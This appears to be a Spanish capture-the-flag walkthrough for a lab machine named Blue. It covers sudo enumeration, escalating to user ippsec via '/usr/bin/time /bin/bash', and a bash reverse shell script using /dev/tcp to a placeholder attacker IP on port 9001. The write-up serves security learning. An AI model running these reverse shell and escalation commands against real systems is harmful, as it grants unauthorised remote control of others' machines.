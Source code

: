 ## Shell Reversa y Escalada de Privilegios {#shell-reversa-y-escalada-de-privilegios}

Antes de continuar abriremos una shell reversa en el sistema atacante usando netcat, en esta ocasión usaré la subherramienta rlwrap junto a el mismo, esta herramienta da los colores y la estructura de una forma más parecida a la de la máquina original en cuanto obtengamos la shell.

<img width="567" height="196" alt="imagen" src="https://github.com/user-attachments/assets/73943789-c82f-41d5-a8d4-93bcb93747d6" />

Una vez hecho eso, vemos que tenemos acceso al usuario john con SSH.

<img width="509" height="118" alt="imagen" src="https://github.com/user-attachments/assets/723db4e0-99de-4cee-9107-a50a0d8a116e" />

Durante el transcurso de la conexión, vemos que tenemos una serie de avisos del admin de la máquina Blue, diciendo que no podremos hacernos con el control de la máquina, esto lleva consecuente que tiene una especie de script o cron que activa los mensajes cada cierto tiempo, el script hará que cada cierto tiempo nos saque de la sesión SSH y automáticamente cambie la clave de acceso de john, afortunadamente, el script cambia la clave a una conocida del wordlist por lo que será sencillo como volver a ejecutar el programa para encontrar la nueva clave. Sin embargo lo suyo es saltarnos esta protección, que es lo primero que haremos en este apartado.

Con:  
```
sudo -l 

```
Obtenemos una pista de que ippsec no necesita contraseña y podemos acceder sin ella.

<img width="567" height="106" alt="imagen" src="https://github.com/user-attachments/assets/cd987185-c66b-4cb4-bb4a-0365c06595cb" />

Accedemos al usuario ippsec.

```
sudo -u ippsec /usr/bin/time /bin/bash
```

<img width="567" height="70" alt="imagen" src="https://github.com/user-attachments/assets/acad1467-88ec-4f67-9f96-ccc5b8db9758" />

Listamos el directorio del usuario y dentro del mismo hay un fichero txt llamado fake.txt donde el contenido es que Blue nos indica que no es tan sencillo ya que no es el usuario correcto, por lo que solo nos quedaría root como tal. 

Ahora desactivaremos el cronjob o el script de cierre de sesión (aunque luego no será desactivarlo sino engañar para que netcat nos mantenga la sesión activa), para ello utilizaremos una shell reversa en forma de un script de bash dentro del usuario ippsec, nos iremos al directorio /dev/shm (para crear un fichero temporal) y dentro del script escribimos nuestro comando para crear la shell reversa con netcat y le daremos permiso de ejecución.

```
cd /dev/shm
ls -la
nano shell.sh
bash -i >& /dev/tcp/IPAtacante/9001 0>&1
tac shell.sh
chmod +x shell.sh
bash shell.sh
```
Una vez ejecutemos el comando con el último paso y al tener ya con netcat una shell corriendo, se nos abrirá la conexión remota a la máquina atacada.
